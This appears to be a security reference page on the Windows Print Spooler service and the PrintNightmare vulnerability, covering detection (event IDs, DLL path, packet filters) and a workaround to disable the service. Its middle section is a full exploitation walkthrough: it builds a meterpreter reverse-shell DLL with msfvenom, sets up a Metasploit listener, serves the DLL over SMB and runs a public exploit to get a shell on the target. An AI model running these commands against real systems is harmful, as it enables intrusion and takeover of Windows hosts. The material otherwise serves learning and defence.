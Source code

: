 ```yaml
---
title: Windows Print Spooler Service
description: A service that is running on each computer that participates in the Print Services system. It uses any port between 49152 and 65535. It may be vulnerable to the PrintNightmare (CVE-2021-1675 / CVE-2021-34527).
tags:
    - Printer
    - Windows
refs:
    - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527
    - https://tryhackme.com/room/printnightmarehpzqlp8
date: 2023-01-16
draft: false
---
```


## Investigation

```powershell
# Check if the Print Spooler service is running
Get-Service -Name Spooler
```

<br />

## Detection

### Services

1. Open Services.
2. We can find the Print Spooler on the Right Pane.
3. Double-click on it and see the details.

### Malicious DLL Location

```txt
C:\Windows\System32\spool\drivers\x64\3\
```

### Event Viewer

Open Event Viewer, and find event logs in the following directory in the left pane.  
If you want to filter by Event ID, use **"Filter Current Log"** in the right pane.

- Application and Services Logs/Microsoft/Windows/PrintService/Admin (Event ID: 808)
- Application and Services Logs/Microsoft/Windows/PrintService/Operational (Event ID: 316, 811)
- Application and Services Logs/Microsoft/Windows/SMBClient/Security (Event ID: 31017)
- Application and Services Logs/Microsoft/Windows/Sysmon/Operational (Event ID: 3, 11, 23, 26)
- Windows Logs/System (Event ID: 7031)

### Packet Analysis (Wireshark)

Open .pcap file with Wireshark.

Filter packets with **"smb"** or **"smb2"**.

<br />

## PrintNightmare

### 1. Clone the Repository

```sh
git clone https://github.com/cube0x0/CVE-2021-1675
```

### 2. Create a Malicious DLL using Msfvenom

```sh
mkdir share
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f dll -o ./share/malicious.dll
```

### 3. Start Metasploit and Reverse TCP

```sh
msfconsole

msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter/reverse_tcp
msf > set lhost <local-ip>
msf > set lport <local-port>

msf > run -j

# Started reverse tcp

msf > jobs
```

### 4. **Host the Malicious DLL**

```sh
impacket-smbserver share ./share/  -smb2support
```

### 5. Examine the Target Fits the Criteria to Exploit It

```sh
impacket-rpcdump @<target-ip> | egrep 'MS-RPRN|MS-PAR'
# Protocol: [MS-RPRN]: Print System Remote Protocol 
# Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

### 6. Run the Exploit

```sh
cd CVE-2021-1675
python3 CVE-2021-1675.py Domain.Controller.local/<username>:<password>@<remote-ip> '\\<local-ip>\share\malicious.dll'
```

Now we should get a target shell in msfconsole.

### 7. Interact with Target System

Enter the target system via msfconsole.

```sh
msf> sessions
msf> sessions -i <session-id>
meterpreter> shell

C:\Windows\system32> whoami
```

<br />

## Workarounds

```powershell
# Disable the Print Spooler service
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
```